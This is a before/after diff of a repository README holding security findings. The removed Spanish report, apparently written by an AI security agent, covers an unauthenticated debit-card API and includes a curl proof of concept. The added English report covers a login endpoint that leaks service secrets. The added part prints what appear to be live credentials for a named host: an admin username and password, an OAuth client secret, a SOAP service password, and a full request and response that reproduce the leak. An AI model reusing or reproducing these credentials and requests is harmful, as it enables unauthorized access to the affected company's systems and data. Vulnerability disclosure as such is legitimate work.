

Before and after one commit to K2uci/OnlyCubans, a Markdown page: Readme.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Readme.md
+++ b/Readme.md
@@ -1,48 +1,71 @@
-# Reporte de Vulnerabilidades - API Orquestador Evertec
+# Critical OAuth/SOAP Credential Exposure in Login API Response
 
-**Fecha del Informe:** 30 de Enero de 2026
-**Autor:** Agente de Ciberseguridad Gemini
+**ID:** vuln-0001
+**Severity:** CRITICAL
+**Found:** 2026-02-17 19:10:29 UTC
 
-## Resumen Ejecutivo
+## Description
 
-Durante la evaluación de seguridad de la API "Orquestador Evertec", se han identificado varias vulnerabilidades, entre las que destaca una **falla crítica de control de acceso a nivel de API**. Todo un controlador, que gestiona operaciones sensibles sobre tarjetas y datos de clientes, se encuentra completamente desprotegido, permitiendo que cualquier persona en Internet pueda leer y modificar datos sin ningún tipo de autenticación.
+## Summary
+The MonitorPro application exposes sensitive OAuth2 and SOAP service credentials to all authenticated users through the login API response. This includes client secrets, service passwords, and authentication configuration that should never be transmitted to client applications.
 
-Adicionalmente, se ha detectado que la documentación proporcionada para la autenticación de uno de los controladores es incorrecta, impidiendo el uso legítimo de dicha funcionalidad.
+## Affected Endpoint
+- **URL:** https://almaviva.monitorpro.ai/api/users/login
+- **Method:** POST
+- **Content-Type:** application/json
 
-A continuación, se detallan los hallazgos.
+## Vulnerability Details
+When any user (regardless of role) authenticates to the application, the API response includes the complete customer configuration object containing sensitive service credentials:
 
----
+### Exposed Credentials:
+| Credential | Value | Purpose |
+|------------|-------|---------|
+| passwordSoapService | VlAk13MY9tdBH7t9muhbWwE2jpz3q1 | SOAP Web Service Authentication |
+| client_id | external-client-almavivaglobal01 | OAuth2 Client Identifier |
+| client_secret | MubXNes8ec1vCfGpJpWrAMVivcXKjV9x | OAuth2 Client Secret |
+| userSoapService | ALMAVIVA | SOAP Service Username |
+| grant_type | client_credentials | OAuth2 Grant Type |
 
-## Listado de Hallazgos
+## Proof of Concept
 
-### 1. [CRÍTICO] Falla de Autenticación en el Controlador de Tarjeta de Débito
+### Request:
+```http
+POST /api/users/login HTTP/1.1
+Host: almaviva.monitorpro.ai
+Content-Type: application/json
 
-- **Severidad:** **CRÍTICA**
-- **CWSS:** 9.8 (Acceso No Autenticado a Funcionalidad Crítica)
-- **Descripción:** La totalidad de los endpoints bajo el controlador `/TarjetaDebito` no implementan ningún tipo de validación de autenticación. Esto permite que un atacante anónimo pueda invocar directamente funcionalidades sensibles que deberían estar protegidas, como la consulta de datos de tarjetas, la actualización de datos de clientes y la modificación del estado de las tarjetas. La API procesa las peticiones y las pasa a la lógica de negocio, en lugar de rechazarlas con un error `401 Unauthorized`.
-- **Impacto:** Un atacante puede leer información sensible de tarjetas (potencialmente el PAN completo), modificar datos personales de los clientes (email, teléfono), y alterar el estado de las tarjetas (bloquear, cancelar), causando un impacto directo en la confidencialidad, integridad y disponibilidad de los datos de los clientes.
-- **Endpoints Afectados:**
-    - `GET /TarjetaDebito/ObtenerInfoTarjetaPorNumeroTarjeta`
-    - `POST /TarjetaDebito/ActualizarDatosCliente`
-    - `POST /TarjetaDebito/ActualizarEstado`
-    - `POST /TarjetaDebito/ExcepcionesDeCompras`
-- **Prueba de Concepto (PoC):**
-  Se realiza una petición al endpoint `ActualizarDatosCliente` sin el encabezado `Authorization`. La API responde con un `200 OK` y un error de negocio, en lugar de un `401 Unauthorized`.
+{"email":"admin","password":"1futuro2@26"}
+```
 
-  ```bash
-  curl -s -i -X POST \
-    -H "Content-Type: application/json" \
-    -d '{"NumeroCuentaPayStudio":"1234567890", ...}' \
-    "https://apim-transversal-dev.azure-api.net/orquestadorevertec/TarjetaDebito/ActualizarDatosCliente"
-  ```
-  **Respuesta del Servidor:**
-  ```http
-  HTTP/1.1 200 OK
-  ...
-  {"Success":false,"Error":"El motor de evertec ha devuelto los siguientes errores [{\"ErrorCode\":\"ICS0178\",\"ErrorText\":\"El cliente con documento 0987654321 y tipo de documento 13 no existe\"}]"}
-  ```
-- **Recomendación:** Aplicar de forma mandatoria el middleware de autenticación y autorización (validación de token OAuth2) a nivel del controlador `/TarjetaDebito` y a cada uno de sus endpoints. Toda petición que no contenga un token válido debe ser rechazada con un código de estado `401 Unauthorized`.
+### Response (truncated):
+```json
+{
+  "user": {
+    "_id": "5dcdc96f59f0d52f48207be1",
+    "username": "admin",
+    "customer": {
+      "_id": "5d76977d69b6021ddc86b112",
+      "name": "ALMAVIVA",
+      "document": 800233052,
+      "userSoapService": "ALMAVIVA",
+      "passwordSoapService": "VlAk13MY9tdBH7t9muhbWwE2jpz3q1",
+      "client_id": "external-client-almavivaglobal01",
+      "client_secret": "MubXNes8ec1vCfGpJpWrAMVivcXKjV9x",
+      "grant_type": "client_credentials",
+      "urldomain": "almaviva.monitorpro.ai"
+    }
+  },
+  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
+}
+```
 
----
+## Affected User Roles
+- **Admin Role:** Receives full credentials in login response
+- **Operator Role:** Also receives full credentials in login response (tested with jchacon@intrustsecurity.co)
+- **All authenticated users** are exposed to these credentials
 
+## Impact Assessment
+- **Confidentiality:** CRITICAL - Service credentials exposed to all authenticated users
+- **Integrity:** HIGH - Attackers could use credentials to modify data via SOAP/OAuth services
+- **Availability:** MEDIUM - Credentials could be used for denial of service attacks
 
````
Also changed, not shown: other parts of Readme.md (+22 -32 lines).
